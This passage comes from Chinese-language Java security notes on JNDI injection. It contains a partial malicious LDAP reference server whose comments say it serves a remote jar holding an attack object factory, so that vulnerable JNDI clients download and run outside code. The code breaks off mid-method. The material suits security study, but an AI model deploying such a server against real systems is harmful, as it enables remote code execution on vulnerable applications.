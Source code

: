     > 高版本一样没有了
  
  - 序列化
  
    > 本地存在反序列化链子就可以。
  
  
  
  LDAPserver:
  
  ```java
  package com.anbai.sec.jndi.injection;
  
  import com.unboundid.ldap.listener.InMemoryDirectoryServer;
  import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
  import com.unboundid.ldap.listener.InMemoryListenerConfig;
  import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
  import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
  import com.unboundid.ldap.sdk.Entry;
  import com.unboundid.ldap.sdk.LDAPResult;
  import com.unboundid.ldap.sdk.ResultCode;
  
  import javax.net.ServerSocketFactory;
  import javax.net.SocketFactory;
  import javax.net.ssl.SSLSocketFactory;
  import java.net.InetAddress;
  
  public class LDAPReferenceServerTest {
  
  	// 设置LDAP服务端口
  	public static final int SERVER_PORT = 3890;
  	// 设置LDAP绑定的服务地址，外网测试换成0.0.0.0
  	public static final String BIND_HOST = "127.0.0.1";
  	// 设置一个实体名称
  	public static final String LDAP_ENTRY_NAME = "test";
  	// 获取LDAP服务地址
  	public static String LDAP_URL = "ldap://" + BIND_HOST + ":" + SERVER_PORT + "/" + LDAP_ENTRY_NAME;
  	// 定义一个远程的jar，jar中包含一个恶意攻击的对象的工厂类
  	public static final String REMOTE_REFERENCE_JAR = "https://anbai.io/tools/jndi-test.jar";
  
  	// 设置LDAP基底DN
  	private static final String LDAP_BASE = "dc=javasec,dc=org";
  
  	public static void main(String[] args) {
  		try {
  			// 创建LDAP配置对象
  			InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
  
  			// 设置LDAP监听配置信息
  			config.setListenerConfigs(new InMemoryListenerConfig(
  					"listen", InetAddress.getByName(BIND_HOST), SERVER_PORT,
  					ServerSocketFactory.getDefault(), SocketFactory.getDefault(),
  					(SSLSocketFactory) SSLSocketFactory.getDefault())
  			);
  
  			// 添加自定义的LDAP操作拦截器
  			config.addInMemoryOperationInterceptor(new OperationInterceptor());
  
  			// 创建LDAP服务对象
  			InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
  
  			// 启动服务
  			ds.startListening();
  			System.out.println("LDAP服务启动成功,服务地址：" + LDAP_URL);
  		} catch (Exception e) {
  ```